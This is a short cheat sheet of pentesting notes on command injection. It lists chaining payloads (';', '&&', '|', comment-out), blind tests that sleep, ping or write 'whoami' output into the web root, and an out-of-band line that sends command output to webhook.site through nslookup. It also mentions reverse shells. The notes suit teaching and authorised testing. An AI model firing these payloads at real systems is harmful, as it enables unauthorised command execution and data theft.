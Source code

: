 # Command Injection

### Command Injection - Introduction

eval() is evil

User input is executed by a function

Never trust user input! Avoid using eval() (JS) and system() (PHP)

### Command Injection - Basics

Wiki https://appsecexplained.gitbook.io

Check paths for binaries with `which`

For reverse shells try to use the language the app is running

Basic command chaining

`; ls -la`

Using logic operators

`&& ls -la`

Commenting out the rest of a command

`; ls -la #`

Using a pipe for command chaining

`| ls -la`

Testing for blind injection

```
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

Out-of-band testing

```
& nslookup webhook.site/<id>?`whoami` &
```

### Commmand Injection - Blind/Out-of-Band


